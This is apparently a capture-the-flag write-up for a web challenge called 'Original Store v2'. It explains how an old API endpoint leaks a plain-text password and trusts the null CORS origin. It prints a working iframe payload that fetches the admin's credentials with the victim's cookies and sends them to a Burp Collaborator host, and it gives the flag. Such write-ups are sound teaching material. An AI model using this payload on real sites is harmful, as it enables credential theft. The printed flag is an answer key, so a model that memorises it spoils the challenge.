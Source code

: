 ```yaml
---
layout: post
title: "Original Store v2"
author: "shreyas-sriram"
tags: ['Web']
---
```


Hi! Check out our car dealership platform - the Original Store at [Store](http://35.200.166.215:5555). We also have a contest running right now and who has the best car wins! You can send us your car's images at [bot](http://35.200.166.215:5556).

## Solution

> This solution is same as that of `Original Store` challenge.

- Login process uses an endpoint `/api/v3/authorize.php` for authenticating credentials
- This endpoint returns a JSON response with `username` and `password`, however the password value was removed due to security reasons
- Trying an older API, `/api/v1/authorize.php`, reveals the `password` in plain text
- On closer inspection, this endpoint also had a CORS misconfiguration with trusted `null` origin
- The following HTML can be used to exploit the vulnerability

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','http://localhost:80/api/v1/authorize.php',true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
        location='https://leet.burpcollaborator.net/flag?c='+encodeURIComponent(this.responseText);
    };
    </script>"></iframe> 
```

- Host the above HTML and send the link to the admin bot, wait to receive the admin password in Burp Collaborator
- Login as admin to obtain the flag

## Flag
```
zh3r0{4dm1n_h4tes_car_st34l3rs_br0}
```


